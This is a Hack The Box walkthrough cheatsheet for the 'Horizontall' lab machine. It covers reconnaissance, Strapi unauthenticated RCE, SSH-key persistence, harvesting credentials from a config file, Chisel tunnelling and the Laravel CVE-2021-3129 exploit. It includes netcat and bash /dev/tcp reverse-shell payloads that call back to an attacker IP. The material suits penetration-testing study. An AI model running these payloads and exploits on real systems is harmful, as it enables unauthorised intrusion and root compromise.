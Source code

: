# HTB: Horizontall — Command Cheatsheet

## 📌 Box Info
- **Name:** Horizontall
- **IP:** Dynamic (example: 10.129.61.76)
- **OS:** Linux
- **Difficulty:** Easy

---

## 🔍 Foothold
### Nmap Scan
```bash
nmap -p- -T4 -oA scans/nmap-alltcp 10.129.61.76
```

### /etc/hosts Update
```bash
echo "10.129.61.76 horizontall.htb" | sudo tee -a /etc/hosts
```

### Virtual Host Discovery
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.61.76 -H "Host: FUZZ.horizontall.htb" --fs 194
```

### Gobuster on API Virtual Host
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_api-prod.horizontall_medium_php-html-txt.txt
```

---

## ⚙️ Exploiting Strapi (Unauthenticated RCE)

### Confirming RCE (Blind)
```bash
tcpdump -i tun0 icmp
```
Send Ping via Exploit ➡️ receive ICMP in tcpdump.

### Reverse Shell Payload
```bash
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 80 >/tmp/f
```

---

## 🔑 Persistence via SSH Key
```bash
# On victim
mkdir /opt/strapi/.ssh
vim /opt/strapi/.ssh/authorized_keys

# On attacker
ssh-keygen -f strapi
scp strapi.pub to victim and paste into authorized_keys

# SSH access
ssh strapi@horizontall.htb -i strapi
```

---

## 🔍 Enumeration
### Database Creds
Found in:
```bash
/opt/strapi/myapi/config/environments/development/database.json
```

### Connect to MySQL
```bash
mysql -h 127.1 -u developer -p
```

### Open Ports (Local)
```bash
netstat -tulnp
```
Found: 1337, 8000

---

## 🔁 Port Forwarding with Chisel

### Start Chisel Server (Kali)
```bash
./chisel server --port 9000 --reverse
```

### Start Chisel Client (Victim)
```bash
./chisel client 10.10.16.5:9000 R:1234:127.0.0.1:8000
```

---

## 🕵️‍♂️ Web Enumeration on Laravel (p8000)
```bash
gobuster dir -u http://127.0.0.1:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_p8000_medium_php-html-txt.txt
```

Discovered: `/profiles`
Path leaked: `/home/developer/myproject/resources/views/profile/index.blade.php`

---

## 🧨 Privilege Escalation (Laravel RCE)

### CVE-2021-3129 Exploit
```bash
git clone https://github.com/joshuavanderpoll/CVE-2021-3129
python3 CVE-2021-3129.py --url http://127.0.0.1:1234 --exec 'bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"' --force
```

### Netcat Listener
```bash
nc -lnvp 443
```

---

## ✅ Root Access
Confirmed reverse shell drops as `root`.

---

## 📚 Resources
- Chisel: https://github.com/jpillora/chisel
- Strapi Exploit: https://www.exploit-db.com/exploits/50239
- Laravel Exploits:
  - https://www.exploit-db.com/exploits/49424
  - https://github.com/joshuavanderpoll/CVE-2021-3129